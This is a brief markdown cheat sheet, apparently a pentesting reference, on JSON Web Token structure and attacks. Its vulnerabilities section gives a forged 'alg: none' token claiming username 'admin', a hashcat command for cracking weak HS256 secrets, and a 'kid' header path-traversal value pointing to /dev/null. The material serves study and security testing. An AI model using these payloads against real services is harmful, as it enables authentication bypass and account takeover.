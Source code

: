 # JSON WEB TOKEN (JWT)

- https://jwt.io/
- https://github.com/ticarpi/jwt_tool

*example :**  
`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjY1MDc2ODM2fQ.C8Z3gJ7wPgVLvEUonaieJWBJBYt5xOph2CpIhlxqdUw`

They are divided in 3 pars separated by a dot, they are basically base64 encoded
- ***Header :*** eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9
- ***Payload :*** eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjY1MDc2ODM2fQ
- ***Signature :*** C8Z3gJ7wPgVLvEUonaieJWBJBYt5xOph2CpIhlxqdUw

### Header

```
{
  "typ": "JWT",
  "alg": "HS256"
}
```

### Payload 

```
{
  "username": "guest",
  "exp": 1665076836
}
```

### Signature

Signature is calculated with the server secret key.  
Without it, it's difficult to recreate a new valid one


## Transmission

JWTs can be transmitted in cookies, in HTTP common header or dedicated headers

They are often used in HTTP headers like this:  
`Authorization: Bearer eyJ0eXAiOiJKV1QiLCJh...`


## Encryption 

Signature can be generated with symmetric (e.g. HS256) or asymmetric (e.g. RS256) encryption



## Vulnerabilities


#### None, none, NONE, nOnE algorithm  
Modify the header section of the token so that the alg header would contain the value none.    
Remove the signature part but leave the dot, the dot is important  
Patch a while ago but can work on old configurations  

***Example :***  
`eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIn0=.`

- ***header :*** `{"typ":"JWT","alg":"none"}`
- ***payload :*** `{" username":"admin"}`

NOTE : IT IS POSSIBLE TO USE ANY CASE VARIATION

#### Weak secret key

Symmetric encryption
***Example with a 4 digit key***

```bash
hashcat jwt.txt -m 16500 -a 3 -w 2 ?d?d?d?d
```

#### No signature verification

Rare but, it happens sometimes

#### Unsecure file signature

Sometimes, the header can contains a "kid" key that links to a file where the server secret key is stored  

***Example :***
```
{
  "alg": "HS256",
  "kid": "../key/secretkey.txt",
  "typ": "JWT"
}
```

If the jwt is signed with the content of the file, we can edit this file to make it point to /dev/null for example (which signes with a null string : %00)  

***Example : ***  
```
{
  "alg": "HS256", 
  "kid": "../../../dev/null",
  "typ": "JWT"
}
```